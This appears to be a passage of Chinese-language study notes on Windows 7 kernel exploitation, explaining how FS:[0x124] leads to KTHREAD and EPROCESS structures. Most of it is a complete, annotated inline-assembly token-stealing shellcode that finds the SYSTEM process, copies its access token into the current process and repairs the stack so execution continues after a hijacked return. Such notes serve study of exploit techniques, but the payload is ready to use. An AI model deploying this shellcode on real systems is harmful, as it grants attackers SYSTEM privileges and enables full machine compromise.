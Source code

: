 * `FS:[0x124]` 在 Win 7 上會指向目前 Process 的 `KTHREAD` 
 
![](https://i.imgur.com/aGbWKxm.png)

* `GS` 與 `FS` 是根據 OS Kernel 來決定用途，`FS` 在 Windows 上會指向一些 structure
* `ETHREAD` 結構與 `ERPOCESS` 結構圖

![](https://i.imgur.com/FVy7m0t.jpg)

* 因為我們將函數 ret 的位置改成我們的 shellcode，Shellcode 執行完會無法回到原本正確的位置，所以為了讓程式能繼續執行，則需要調整 esp 的位置


```clike=
VOID TokenStealingPayloadWin7() {
    // Importance of Kernel Recovery
    __asm {
        pushad                               ; Save registers state
                                             ; 存目前暫存器的狀態，後面需要還原用

        ; Start of Token Stealing Stub
        xor eax, eax                         ; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                             ; _KTHREAD is located at FS:[0x124]
                                             ; 取得目前 Process 的 KTHREAD 放到 eax
                                             

        mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
                                             ; 取得[目前 Process 的 KTHREAD + EPROCESS_OFFSET] 的位置放到 eax
        mov ecx, eax                         ; Copy current process _EPROCESS structure
                                             ; 複製目前 Process 的 Eprocess structure 到 ecx
           
        mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4

        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
                                             ; 從目前 eprocess 的 ActiveProcessLinks 找 system 的 eprocess 
            sub eax, FLINK_OFFSET            ; Flink 會指向下個 eprocess 的 ActiveProcessLinks 所在位置(而不是開頭)，所以需要 sub FLINK_OFFSET 回到下個 eprocess 的開頭
            cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
                                             ; 比較 nt!_EPROCESS.UniqueProcessId 是不是 4
            jne SearchSystemPID              ; 如果不是 4 就重新找，所以當跳出這個迴圈出來一定會是 4

        mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
                                             ; edx 指向 token 所在位置  

        mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                             ; with SYSTEM process nt!_EPROCESS.Token
                                             ; 將目前 process token 換成 system token
        ; End of Token Stealing Stub

        popad                                ; Restore registers state

        ; Kernel Recovery Stub
        xor eax, eax                         ; Set NTSTATUS SUCCEESS
        add esp, 12                          ; Fix the stack
        pop ebp                              ; Restore saved EBP
        ret 8                                ; Return cleanly
    }
}
```
